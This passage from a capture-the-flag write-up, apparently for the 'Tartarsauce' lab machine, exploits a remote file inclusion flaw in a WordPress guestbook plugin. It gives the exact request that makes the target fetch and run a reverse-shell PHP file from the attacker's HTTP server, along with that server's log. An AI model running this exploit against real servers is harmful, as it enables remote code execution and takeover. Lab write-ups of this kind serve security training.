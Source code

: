 - find vulnerable plugin

![image-20231218080548910](./Tartarsauce.assets/image-20231218080548910.png)

- HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request -> create local reverse shell php code inside wp-load.php -> visit `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.39/`

```bash
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [18/Dec/2023 03:31:27] "GET /wp-load.php HTTP/1.0" 200 -
```

![image-20231218080645683](./Tartarsauce.assets/image-20231218080645683.png)

## Privilege Escalation

### www-data -> onuma

- `sudo -l`

![image-20231218080711603](./Tartarsauce.assets/image-20231218080711603.png)
